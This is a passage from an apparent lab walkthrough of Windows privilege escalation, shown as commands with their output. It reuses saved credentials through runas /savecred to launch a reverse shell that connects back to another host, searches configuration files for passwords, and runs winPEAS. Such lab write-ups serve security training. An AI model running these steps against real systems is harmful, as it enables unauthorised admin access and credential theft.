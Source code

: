 2. This can be verified by `cmdkey /list`
```powershell
C:\PrivEsc\tools>cmdkey /list
cmdkey /list

Currently stored credentials:

    Target: MicrosoftAccount:target=SSO_POP_Device
    Type: Generic 
    User: 02psqnskqyahvkpu
    Saved for this logon only
    
    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02psqnskqyahvkpu
    Local machine persistence
    
    Target: Domain:interactive=MSEDGEWIN10\admin
    Type: Domain Password
    User: MSEDGEWIN10\admin
```

3. Use the RunAs command to execute a program with the saved creds.
> runas /savecred /user:admin C:\PrivEsc\tools\reverse.exe

```powershell
C:\PrivEsc\tools>runas /savecred /user:admin C:\PrivEsc\tools\reverse.exe
runas /savecred /user:admin C:\PrivEsc\tools\reverse.exe

[*] Command shell session 17 opened (192.168.1.164:53 -> 192.168.1.174:53240) at 2021-10-29 11:29:37 -0400

C:\PrivEsc\tools>sessions 17

[*] Backgrounding session 16...
[*] Starting interaction with 17...

C:\Windows\system32>whoami
whoami
msedgewin10\admin
```

### Configuration Files
Some administrators will leave configurations files on the system with passwords in them.   
Two commands to search for them are:
> dir /s \*pass\* == \*.config    
> findstr /si password \*.xml \*.ini \*.txt

1. Use winPEAS to search for configuration files with passwords.
> winpeasany.exe quiet filesinfo
```powershell
C:\PrivEsc\tools>winpeasany.exe quiet filesinfo
winpeasany.exe quiet filesinfo
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list...
   - Creating disabled users list...
   - Admin users list...

-- Snip --

  [+] Unnattend Files()
    C:\Windows\Panther\Unattend.xml
```